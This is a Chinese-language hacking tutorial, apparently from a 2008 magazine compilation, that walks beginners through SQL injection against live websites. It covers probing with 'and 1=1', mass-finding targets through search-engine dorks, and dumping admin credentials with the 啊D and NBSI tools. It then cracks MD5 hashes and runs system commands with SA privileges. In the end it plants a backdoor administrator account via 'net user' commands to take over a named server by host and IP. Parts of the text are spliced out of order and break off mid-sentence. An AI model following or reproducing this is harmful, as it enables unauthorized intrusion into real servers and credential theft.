SQL注入漏洞是目前应用最广泛的网站入侵方法，可以说微软的官方网站也都存在着注入漏洞。那么要如何判断一个页面是否存在SQL注入漏洞呢？通常我们可以在地址的后面加上单引号来判断。大家先来看一个正常地址（没有加单引号）的页面（图1），当在正常地址的后面加上单引号后就会因为正常的SQL查询语句被打乱而出现了错误提示（图2），当然有时候也不会出现出错信息，但是出现的页面和正常页面也是不一样的，例如加上单引号后页面内容变成了空白（图3）。


根据以上的这三个页面信息还不能够确定这个地址是否存在SQL注入漏洞，我们在正常地址的后面加上“and 1=1”（图4），可以看到返回了正常的页面，为什么呢？这是因为加上了一个“1=1”，“and”前面的SQL语句和后面的“1=1”都是TURE，再做先AND运算后，当然也是TURE了，也就正常执行了。再在正常地址的后面加上“and 1=2”（图5），可以看到返回了错误的页面，为什么呢？这是因为加上了一个“1=2”，“1=2”是

## SQL 注入小知识

随着B/S模式应用开发的发展，使用这种模式编写应用程序的程序员也越来越多，但是由于程序员的水平及经验参差不齐，相当大一部分程序员在编写代码的时候，没有对用户输入数据的合法性进行判断，这就使应用程序存在了一定的安全隐患，用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想知道的数据，这就是所谓的SQL Injection，即SQL注入。

## 小知识：什么是B/S结构

B/S（Browser/Server）结构即浏览器和服务器结构，它是随

# 菜鸟学堂

## 2008 合订本上卷

FLASE，导致AND运算后也为FLASE，所以就错误执行了。


（此处为图3，浏览器界面，显示JIN KANG QIAO member club login页面，包含用户名、密码输入框、Trade News列表等内容，地址栏为http://www.canadajob.cn/xywzxy.asp?id=178）

图3


（此处为图4，浏览器界面，显示“邹平县韩店水库开发区供水干管（三期）工程”页面，地址栏为http://www.hxwater.gov.cn/article_Print.asp?ArticleID=3886&ClassID=51）

图4


（此处为图5，浏览器界面，显示“找不到文章”页面，地址栏为http://www.hxwater.gov.cn/article_Print.asp?ArticleID=3886&ClassID=52）

图5

现在就可以确定这个页面存在SQL注入漏洞了，那么如何通过这个SQL注入漏洞来获得网站的敏感信息呢？当然是通过工具了！省事省力，速度还快。

### 一、啊D来注入ACCESS数据库

既然知道了如何判断一个页面是否存在SQL注入漏洞，那么如何大批量的扫描各个网站呢？难道要手工进行吗？我们可以依靠啊D注入工具，啊D注入工具在扫描注入点和注入ACCESS数据库方面是比较出色的。打开啊D注入工具，点击“扫描注入点”，然后进入扫描页面（图6）。

在检测网址栏中输入“http://www.baidu.com/gaoji/advanced.html”（百度高级搜索的页面），在搜索输入框中输入“inurl:showdetail.asp?id=”，它的意思就是在百度中搜索URL地址中存在“showdetail.asp?id=”的地址，为什么要搜索这个地址呢？因为经过我的研究发现，发现这个showdetail.asp大部分都存在SQL注入漏洞（图7）。

自动进入“SQL注入检测”页面，点击“检测”按钮后就会自动检测了，稍等一会儿啊D便检测出此网站使用的是ACCESS数据库。


（此处为图6，啊D注入工具的SQL注入检测页面，包含检测网址输入框、检测按钮、检测结果列表等）

图6



（此处为图7，百度搜索页面，搜索框内容为inurl:showdetail.asp?id=，下方为搜索结果）

图7



（此处为图8，啊D注入工具的检测结果页面，显示检测到ACCESS数据库，数据表为admin，字段为username、password等）

图8

现在工具已经自动扫描到了26条SQL注入漏洞了，随便选择一条存在SQL注入漏洞的URL地址，然后双击。啊D就会点击“检测表段”就会自动检测此ACCESS数据库中的数据表名，结果检测出了一个名字为“admin”的数据表，很显然这里面肯定存储着管理员的相关信息。紧接着点击“检测字段”就会自动检测admin数据表中的相关字段，结果检测出了好几个与用户名、密码相关的字段。然后我们选种想要检测的字段名，点击“检测内容”就会自动进行内容的检测了，再稍等一会儿，

终于检测出了用户名和密码，帐号为“admin”，密码为“7a57a5a743894a0e”（图8）。

检测出用户名和密码后要怎么用呢？当然是从后台登录页面进入了。这时候就得扫描网站后台登录页面了，怎么扫描呢？自己动手吗？还是借用工具，打工“管理入口检测”，点击“检测管理入口”，啊D 就会根据自身携带的管理后台地址逐个进行检测了，右键单击扫描到的后台管理地址，选择“用IE 打开连接”便可以打开管理后台的登录地址了（图9）。



填写好检测出来的用户名和密码是不是进不去啊？当然进不去了，因为那个密码并不是真正的密码，而是经过MD5 加密过的密码，为什么要使用MD5 加密呢？这是害怕用户真正的密码外泄而引起网站的不安全。遇到被MD5 加密的密码怎么办呢？有两种办法可以还原。一种是进行暴力破解，打开MD5 密码破解器，将“7a57a5a743894a0e”填写入“破解单个密文”的输入框中，然后选择尝试破解的字符集，可以针对密码的强度进行判断，可以选择数字、小写字母、大写字母、特殊字符等，当然也可以自定义。也可以使用字典进行暴力破解，这就必须要配合强壮的字典文件了。点击“开始”按钮就会开始暴力破解了，接下来就是等待了，对于暴力破解只能靠运气了（图10）。



另一种是进行在线查询，其原理是MD5 在线查询网站都存储着N 多的MD5 和真值对应关系，我们只需要将得到的密码与对方数据库中存储的密码进行比对就可以了。我们打开“http://www.cmd5.com/”，这个站点是存储MD5 值最多的网站，将检测出来的“7a57a5a743894a0e”填写到输入框中，点击“MD5加密或者解密”，最多5 秒就会将真值“换算”出来了，当然这需要网站的数据库中必须存储着这个MD5 数据才行（图11）。



经过破解和查询，“7a57a5a743894a0e”这个MD5 的真值为“admin”，那么用户名和密码都为“admin”。来到管理后台页面输入帐号（admin）和密码（admin），终于进入了网站的后台管理平台（图12）。



#### 小知识：什么是MD5？

所谓MD5，即“Message-Digest Algorithm 5（信息-摘要算法）”，它是由MD2、MD3、MD4 发展而来的一种单向函数算法（也就是HASH 算法），它是国际著名的公钥加密算法标准RSA 的第一设计者R.Rivest 于上个世纪90 年代初开发出来的。MD5 的最大作用在于将不同格式的大容量文件信息在用数字签名软件来签署私人密钥前“压缩”成一种保密的格式，关键之处在于——这种“压缩”是不可逆的。

### 二、NBSI 来注入SA 权限

NBSI 是老牌的SQL 注入工具，特别是针对使用MSSQL 数据库的SQL 注入，比如执行系统命令、列系统目录、上传文本文件等等都是它的强项。我们把利用啊D 注入工具扫描到的MSSQL 注入点，挪到NBSI 里就可以最大发挥啊D 和NBSI 的优势功能了。

打开NBSI，将MSSQL 注入点填入“注入地址”中，点击“检测”按钮就可以进行漏洞信息的检测了。运气还真不错，遇到了SA 权限的MSSQL 注入点（图13）。


盘的文件，就输入“C:\”，然后点击“列目录”就可以了（图14），我们可以利用这个一点点的查找服务器中有用的数据。




再来尝试一下NBSI的命令执行功能，这个功能可以在服务器上执行一些系统命令，由于这个注入点是SA权限的，因此执行的权限也就是最高，相当于服务器系统权限哦！点击下面的“NB Commander”选项，在“命令文本”栏输入想要执行的系统命令，比如我想使用“systeminfo”命令查看服务器的系统环境信息，那么就输入“systeminfo”，然后点击“执行”就可以了（图15）。



最后再来尝试一下NBSI的上传功能，这个功能可以通过WEB将一些小文本文件提交到服务器上（大文本文件会出错的）。点击下面的“NB_Commander”选项，在命令执行的右边便是文本文件上传。先通过“浏览”在本地计算机中选择一个文本文件，再填写上要在远程服务器中保存的路径，选择保存类型，最后点击“上传”即可（图16）。




在使用NBSI针对SQL注入漏洞检测的时候，会遇到手工检测可以查出来，而使用NBSI却检测不出来的情况，比如在图2中我们已经检测出了“http://bzwater.gov.cn/article/Article_Print.asp?ArticleID=3838”这个地址存在SQL注入漏洞，但是在NBSI里却死活检测不到（图17），出现了“暂未检测到注入漏洞”。


这时候就郁闷了，工具让我们输入特征字符，特征字符是用来干什么的呢？它是用来区分正常页面和出错页面的特征，就是寻找它们之间的不同之处。可以先打开正常的页面，然后再打开出错的页面，对比它们之间的不同。比如通过图4和图5就可以看到，IE的标题栏不同，那么我们就把标题栏中的“邹平县”作为特征字符填写到NBSI的特征字符框中，然后再点击“再检测”按钮，就可以让工具使用“ASCII 码半拆法”进行猜解，然后再对表名、列名进行相应的猜解即可（图 18）。

尝试完这些新功能后，我们就得考虑如何保拿下这个网站，更确切的说考虑如何拿下这个服务器！利用 NBSI 的命令执行功能执行“net start”命令，发现服务器开放了“Terminal Services”服务，也就是 3389 终端服务（图 19）。


但是当我们使用远程桌面进行连接时却发现连接不上，这是为什么呢？看来是服务器管理员将终端服务的默认端口 3389 更改了，那么要怎么查看呢？再次执行“netstat -an”查看当前服务器所开放的连接端口（图 20）。


我发现那个 3800 端口很可疑，当使用远程桌面连接时终于出现了连接界面，但是现在我们还没有登录帐号和密码，要怎么办呢？既然我们有最高的权限，那就给自己添加个帐号吧，分别执行 “net user casper 1314521 /add”（添加一个名为 casper，密码为 1314521 的帐号）和“net localgroup administrators casper /add”（将刚才建立的 casper 帐号添加到管理员组），命令执行完毕后，我们重新在远程桌面中输入“www.helper24.com:3800”或者“221.10.50.85:3800”都可以连接到服务器，输入刚才建立的帐号就可以连接进入服务器了（图 21）。

### 三、啊 D 来注入 DB_OWNER 权限

对于 SA 权限的注入点是非常好入侵的，但是这在注入的过程中不会太多，出现比较多的则是 DB_OWNER 权限，它的意思就是数据库的拥有者，既然是拥有，当然是对数据库的所有权限比如添加、删除、修改、创建表、索引等都是有的，DB_OWNER 是一个数据库的角色，不是一个用户（图 22）。

在一般情况下 DB_OWNER 权限是可以列目录的，我们打开啊 D 中的“目录查看”功能，在“检测位置”中输入“D:\”，就会针对 D 盘的根目录进行检测，为什么要从 D 盘开始检测呢？这是因为一般情况下，管理员会把网站文件放在非 C 的盘下。那么要怎样快速的检测网站文件所在的绝对路径呢？1、需要长期的人侵经验；2、针对网站知己知彼。只有这样才能快速的获得网站文件的绝对目录。通过长时间（5 分钟）的检测，发现此网站文件所在的绝对路径为“D:\Web\a4tech”（图 23），而且还发现这个网站似乎是双飞燕的全球网站！看看你的鼠标，是不是双飞燕的呢？



